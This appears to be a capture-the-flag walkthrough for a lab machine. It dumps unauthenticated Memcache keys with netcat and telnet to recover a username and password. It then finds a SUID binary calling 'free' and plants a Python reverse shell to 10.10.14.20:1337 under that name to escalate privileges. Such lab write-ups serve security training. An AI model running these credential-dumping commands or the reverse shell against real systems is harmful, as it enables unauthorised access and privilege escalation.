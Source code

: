 ```
```
## Memcache
```
Memcache Exploit : https://niiconsulting.com/checkmate/2013/05/memcache-exploit/
```
### 11211 - Pentesting Memcache : https://book.hacktricks.xyz/pentesting/11211-memcache
```
echo "version" | nc -vn localhost 11211
```
```
echo "version" | nc -vn 127.0.0.1 11211
```
```
echo "get account" | nc -vn 127.0.0.1 11211
```
```
echo "get user" | nc -vn 127.0.0.1 11211
```
```
echo "get passwd" | nc -vn 127.0.0.1 11211
```
### telnet localhost 11211
```
ash@cache:~$ telnet localhost 11211
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
# linpeas (sysinfo)
```
[+] Readable files belonging to root and readable by me but not world readable
```
```
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```
```
strings /bin/sysinfo
```
```
free -h
```
We write the following content in a file named free
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```